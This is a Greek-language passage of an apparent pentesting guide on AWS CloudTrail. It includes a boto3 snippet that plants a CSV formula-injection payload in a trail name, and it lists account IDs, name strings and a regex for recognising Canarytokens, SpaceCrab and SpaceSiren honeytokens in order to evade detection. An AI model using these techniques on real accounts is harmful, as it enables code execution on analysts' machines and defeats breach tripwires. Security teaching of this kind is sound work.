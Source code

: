 Είναι δυνατή η εκτέλεση μιας ενσωμάτωσης CSV μέσα στο CloudTrail που θα εκτελέσει αυθαίρετο κώδικα εάν τα αρχεία καταγραφής εξάγονται σε μορφή CSV και ανοίγονται με το Excel.\
Ο παρακάτω κώδικας θα δημιουργήσει καταχώρηση καταγραφής με ένα κακό όνομα Trail που περιέχει το φορτίο:
```python
import boto3
payload = "=cmd|'/C calc'|''"
client = boto3.client('cloudtrail')
response = client.create_trail(
Name=payload,
S3BucketName="random"
)
print(response)
```
Για περισσότερες πληροφορίες σχετικά με τις Ενέργειες CSV ελέγχου ελέγξτε τη σελίδα:

{% embed url="https://book.hacktricks.xyz/pentesting-web/formula-injection" %}

Για περισσότερες πληροφορίες σχετικά με αυτήν τη συγκεκριμένη τεχνική ελέγχου ελέγξτε [https://rhinosecuritylabs.com/aws/cloud-security-csv-injection-aws-cloudtrail/](https://rhinosecuritylabs.com/aws/cloud-security-csv-injection-aws-cloudtrail/)

## **Παράκαμψη Ανίχνευσης**

### Παράκαμψη HoneyTokens

Τα Honeytokens δημιουργούνται για τον **εντοπισμό της διαρροής ευαίσθητων πληροφοριών**. Στην περίπτωση του AWS, παρακολουθούνται οι **κλειδιά AWS των οποίων η χρήση παρακολουθείται**, αν κάτι ενεργοποιήσει μια ενέργεια με αυτό το κλειδί, τότε κάποιος πρέπει να έχει κλέψει αυτό το κλειδί.

Ωστόσο, τα Honeytokens όπως αυτά που δημιουργήθηκαν από το [**Canarytokens**](https://canarytokens.org/generate)**,** [**SpaceCrab**](https://bitbucket.org/asecurityteam/spacecrab/issues?status=new\&status=open)**,** [**SpaceSiren**](https://github.com/spacesiren/spacesiren) είτε χρησιμοποιούν αναγνωρίσιμο όνομα λογαριασμού είτε χρησιμοποιούν το ίδιο αναγνωριστικό λογαριασμού AWS για όλους τους πελάτες τους. Επομένως, αν μπορείτε να λάβετε το όνομα λογαριασμού και/ή το αναγνωριστικό λογαριασμού χωρίς να δημιουργήσετε κανένα αρχείο καταγραφής Cloudtrail, **μπορείτε να γνωρίζετε αν το κλειδί είναι ένα Honeytoken ή όχι**.

Το [**Pacu**](https://github.com/RhinoSecurityLabs/pacu/blob/79cd7d58f7bff5693c6ae73b30a8455df6136cca/pacu/modules/iam\_\_detect\_honeytokens/main.py#L57) έχει μερικούς κανόνες για τον εντοπισμό εάν ένα κλειδί ανήκει στο [**Canarytokens**](https://canarytokens.org/generate)**,** [**SpaceCrab**](https://bitbucket.org/asecurityteam/spacecrab/issues?status=new\&status=open)**,** [**SpaceSiren**](https://github.com/spacesiren/spacesiren)**:**

* Εάν το **`canarytokens.org`** εμφανίζεται στο όνομα ρόλου ή το αναγνωριστικό λογαριασμού **`534261010715`** εμφανίζεται στο μήνυμα σφάλματος.
* Δοκιμάζοντάς τα πιο πρόσφατα, χρησιμοποιούν τον λογαριασμό **`717712589309`** και εξακολουθούν να έχουν τη συμβολοσειρά **`canarytokens.com`** στο όνομα.
* Εάν το **`SpaceCrab`** εμφανίζεται στο όνομα ρόλου στο μήνυμα σφάλματος
* Το **SpaceSiren** χρησιμοποιεί **uuids** για τη δημιουργία ονομάτων χρηστών: `[a-f0-9]{8}-[a-f0-9]{4}-4[a-f0-9]{3}-[89aAbB][a-f0-9]{3}-[a-f0-9]{12}`
* Εάν το **όνομα μοιάζει με τυχαία δημιουργημένο**, υπάρχουν υψηλές πιθανότητες ότι είναι ένα HoneyToken.
